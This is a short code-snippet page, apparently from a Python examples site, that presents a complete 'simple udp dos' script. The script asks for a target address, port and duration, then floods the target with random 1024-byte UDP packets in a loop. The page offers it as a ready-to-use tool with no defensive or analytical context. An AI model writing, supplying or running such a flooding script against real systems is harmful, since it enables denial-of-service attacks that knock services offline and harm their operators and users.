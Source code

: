 ```yaml
---
title: python script simple udp dos 3 (snippet)
date: 2020-03-03
tags: ["python"]
---
```

Python script 'simple udp dos 3'


Modules used in program: 
* `import random`
* `import socket`
* `import time`
* `import sys`
* `import os`

## python simple udp dos 3

Python example: simple udp dos 3

```python
import os
import sys
import time
import socket
import random

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1024)
print("This is a simple tool for udp dos.")

ip = input("Target ip or url: ")
port = int(input("Port: "))
dur = int(input("Time: "))

timeout = time.time() + dur
sent = 0

while True:
    try:
        if time.time() > timeout:
            break
        else:
            pass
        sock.sendto(bytes, (ip, port))
        sent += 1
        print("Sent %s packets to %s" % (sent, ip))
    except KeyboardInterrupt:
        sys.exit()

```

## Python links

- Learn Python: https://pythonbasics.org/
- Python Tutorial: https://pythonspot.com
